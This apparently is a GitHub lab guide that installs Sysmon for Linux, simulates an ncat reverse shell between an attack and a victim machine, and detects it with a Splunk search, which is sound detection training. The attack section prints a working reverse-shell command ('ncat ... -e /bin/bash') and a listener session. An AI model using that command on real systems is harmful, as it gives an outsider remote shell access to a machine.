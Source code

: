 # Monitoring and Investigation of Suspicious Process Execution

- Installation of **Sysmon for Linux** with an advanced XML configuration to detect multiple MITRE ATT&CK techniques.

- [Sysmon for Linux](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

## Installing Sysmon for Linux

```sh
wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb

sudo apt-get update
sudo apt-get install sysmonforlinux
```

## Advanced XML Configuration

#### Create a configuration file

```sh
nano sysmon-config.xml
```

#### Paste the following XML content (clean, indented, and optimized excerpt):

- [Recommended base config: MSTIC Sysmon Config](https://github.com/microsoft/MSTIC-Sysmon/blob/main/linux/configs/main.xml)

#### Start Sysmon with the configuration

```sh
sysmon -i sysmon-config.xml
```

#### Verify Sysmon is running

```sh
sudo systemctl restart sysmon
sudo systemctl status sysmon
```

## Simulate an Attack – Reverse Shell with ncat

#### On the attack machine:

```sh
root@attack:~# apt install ncat net-tools -y
root@attack:~# ncat -lnvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.129.166.
Ncat: Connection from 192.168.129.166:33790.
ls
packages-microsoft-prod.deb
snap
splunkforwarder-9.4.3-237ebbd22314-linux-amd64.deb
sysmon-config.xml
pwd
/root
```

#### On the compromised (victim) machine:

```sh
apt install ncat net-tools -y
ncat <IP_ATTACK_MACHINE> 4444 -e /bin/bash
```

#### Verify the connection:

```sh
lsof -i :4444
netstat -tulnp | grep 4444
```

## Analysis in Splunk (Search & Reporting)

#### Search queries in `Search & Reporting`:

- Show all logs related to Sysmon

- Filter on events identified as Command techniques

- Specific search for usage of ncat

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command ncat
```

![Enterprise](/Splunk_Ubuntu/assets/splunk_linux_11.png)
